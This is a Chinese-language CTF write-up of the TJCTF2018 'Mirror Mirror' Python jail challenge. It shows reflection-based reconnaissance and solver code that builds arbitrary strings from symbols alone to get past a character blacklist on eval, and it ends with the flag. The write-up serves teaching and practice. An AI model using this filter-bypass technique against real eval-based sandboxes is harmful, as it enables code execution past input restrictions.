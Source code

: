 ```yaml
---
mathjax: true
title:  TJCTF2018：Mirror Mirror——一种绕过Python沙箱字符限制的方法
tag: [jail_escape]
date: 2018-08-14 19:24:11
categories: writeup
---
```


![1534248479004](1534248479004.png)

通过nc连接`problem1.tjctf.org:8004` ,题目提供一个Python交互终端。

根据题目描述 Reflection 可知与Python反射机制有关。

所谓反射机制就是能够通过向函数传入字符串参数，来操纵指定对象的类型、属性、方法和类。

> A Python script can find out about the type, class, attributes and methods of an object. This is referred to as **reflection** or **introspection**. See also [Metaclasses](https://en.wikibooks.org/wiki/Python_Programming/Metaclasses).
>
> Reflection-enabling functions include type(), isinstance(), callable(), dir() and getattr().
>
> —— https://en.wikibooks.org/wiki/Python_Programming/Reflection 

这里使用`dir()` 函数查看`get_flag` 的属性。

```python
λ nc problem1.tjctf.org 8004
Hi! Are you looking for the flag? Try get_flag() for free flags. Remember, wrap your input in double quotes. Good luck!
>>> get_flag()
Traceback (most recent call last):
  File "<console>", line 1, in <module>
TypeError: get_flag() takes exactly 1 argument (0 given)
>>> get_flag('1')
1 is not a valid character
>>> get_flag('@')
Traceback (most recent call last):
  File "<console>", line 1, in <module>
  File "/home/app/problem.py", line 23, in get_flag
    if(eval(input) == super_secret_string):
  File "<string>", line 1
    @
    ^
SyntaxError: unexpected EOF while parsing
>>> dir(get_flag)
['__call__', '__class__', '__closure__', '__code__', '__defaults__', '__delattr__', '__dict__', '__doc__', '__format__', '__get__', '__getattribute__', '__globals__', '__hash__', '__init__', '__module__', '__name__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'func_closure', 'func_code', 'func_defaults', 'func_dict', 'func_doc', 'func_globals', 'func_name']
>>> dir(get_flag.func_code)
['__class__', '__cmp__', '__delattr__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__le__', '__lt__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'co_argcount', 'co_cellvars', 'co_code', 'co_consts', 'co_filename', 'co_firstlineno', 'co_flags', 'co_freevars', 'co_lnotab', 'co_name', 'co_names', 'co_nlocals', 'co_stacksize', 'co_varnames']
>>> get_flag.func_code.co_consts
(None, 'this_is_the_super_secret_string', 48, 57, 65, 90, 97, 122, 44, 95, ' is not a valid character', '%\xcb', "You didn't guess the value of my super_secret_string")
>>>
```



探索后猜测要求向`get_flag()` 函数传入一个字符串，eval执行后等于super_secret_string就会返回flag。

`48, 57, 65, 90, 97, 122, 44, 95` 应该意味着ASCII值为 48~57，65~90，97~122，44和95的字符不被允许，也就是 `[a-zA-Z0-9,_]` 被禁用了，测试一下发现确实如此。此外 `'%\xcb'` 字符串也是一个提示。

这题应该是对 [A python's escape from PlaidCTF jail](https://wapiflapi.github.io/2013/04/22/plaidctf-pyjail-story-of-pythons-escape/) 的复现。主要目标是通过有限的字符 集 `({[<'":~%c>]}) ` 构造出任意的字符串。主要思路如下：

- `[]<{}` 逻辑值为True，等价于1；`[]<[]` 逻辑值为False，等价于0。

- 由1和0，结合按位取反`~` 和移位 `<<` 可以得到任意整数。

  ```python
  def brainfuckize(nb):
      if nb in [-2, -1, 0, 1]:
          return ["~({}<[])", "~([]<[])", "([]<[])", "({}<[])"][nb + 2]
      if nb % 2:
          return "~%s" % brainfuckize(~nb)
      else:
          return "(%s<<({}<[]))" % brainfuckize(nb / 2)
  
  
  def f(n):
      # 实际上这个函数就足够了，但生成的结果长度会比第一个长很多。
      if n == 0:
          return "([]<[])"
      return "~%s" % f(~n) if n % 2 else "(%s<<({}<[]))" % f(n / 2)
  
  
  print f(5), eval(brainfuckize(5)) == 5
  # ~(~(~(~([]<[])<<({}<[]))<<({}<[]))<<({}<[])) True
  ```

  

- 字符串 `%\xcb` 由`%` 和 `\xcb)` 两个字符构成。`repr('%\xcb')` 会得到一个七字符的字符串，其中包含`%` 和 `c` 。结合上面的得到的整数就可以构造任意字符了。

  ```python
  >>> for i in repr('%\xcb'):
  ...     print i,
  ...
  ' % \ x c b '
  >>> for i in `'%\xcb'`:
  ...     print i,
  ...
  ' % \ x c b '
  
  >>> `'%\xcb'`[1::3]
  '%c'
  >>> `'%\xcb'`[1::3]%97 == chr(97)
  True
  >>>
  ```

  在Python2 中 ，反引号包裹是 `repr()` 的快捷方式，效果完全一致。在Python3中反引号被废除了。

- 接下来就可以构造任意字符串并传给`get_flag()`了。

  ```python
  def bf(nb):
      if nb in [-2, -1, 0, 1]:
          return ["~({}<[])", "~([]<[])", "([]<[])", "({}<[])"][nb + 2]
      if nb % 2:
          return "~%s" % bf(~nb)
      else:
          return "(%s<<({}<[]))" % bf(nb / 2)
  
  
  def gen_single_char(c):
      return "`'%\\xcb'`[" + bf(1) + "::" + bf(3) + "]%(" + bf(ord(c)) + ")"
  
  
  secret = "this_is_the_super_secret_string"
  cmd = 'get_flag("%s")' % ('+'.join(gen_single_char(i) for i in secret))
  print cmd
  # tjctf{wh0_kn3w_pyth0n_w4s_s0_sl1pp3ry}
  ```

![1534253889627](1534253889627.png)